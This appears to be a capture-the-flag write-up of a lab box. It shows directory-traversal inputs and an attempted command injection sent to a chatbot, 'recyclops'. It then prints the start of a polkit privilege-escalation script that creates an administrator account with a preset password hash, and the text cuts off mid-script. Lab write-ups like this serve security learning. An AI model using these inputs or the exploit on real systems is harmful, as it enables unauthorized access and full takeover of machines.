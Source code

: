 From what we found above, we found an additional vhost (chat.office.paper).

* Let's add it to /etc/hosts.
* Let's navigate to[http://chat.office.paper/register/8qozr226AhkCHZdyY](http://chat.office.paper/register/8qozr226AhkCHZdyY)
* We are able to register.
* We see everyone talking about the bot- recyclops
  * Let's DM him and see if we can talk about him.
  *   We see that he can list files and send files:

      * list ..
      * list..
      * list.. && -- don't inject OS commands!
      * list../user.txt
      * file ../user.txt -- Access Denied. This worked. I was able to attempt to grab the contents of user.txt.
      * file sale/portfolio.txt \<!=====Contents of file sale/portfolio.txt=====> Portfolio

      ***

      * Bill
      * Served the country in war
      * Family built the country
      * purchased paper worth a million dollars
      * will probably fire me. \<!=====End of file sale/portfolio.txt=====>
      * file sale\_2/portfolio.txt \<!=====Contents of file sale\_2/portfolio.txt=====> Portfolio

      ***

      * Christian
      * Still No idea how micheal made the sale!
      * Need further clarifications. \<!=====End of file sale\_2/portfolio.txt=====>
  *   file ../pk.sh \<!=====Contents of file ../pk.sh=====> #!/bin/bash

      ```
        # Set the name and display name
        userName="hacked"
        realName="hacked"

        # Set the account as an administrator
        accountType=1

        # Set the password hash for 'password' and password hint
        password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/VCrZv183QpZL7sAeskcoTB'
        passHint="password"

        # Check Polkit version
        polkitVersion=$(systemctl status polkit.service | grep version | cut -d " " -f 9)
        if [[ "$(apt list --installed 2>/dev/null | grep polkit | grep -c 0.105-26)" -ge 1 || "$(yum list installed | grep polkit | grep -c 0.117-2)" ]]; then
        echo "[*] Vulnerable version of polkit found"
        else
        echo "[!] WARNING: Version of polkit might not vulnerable"
        fi
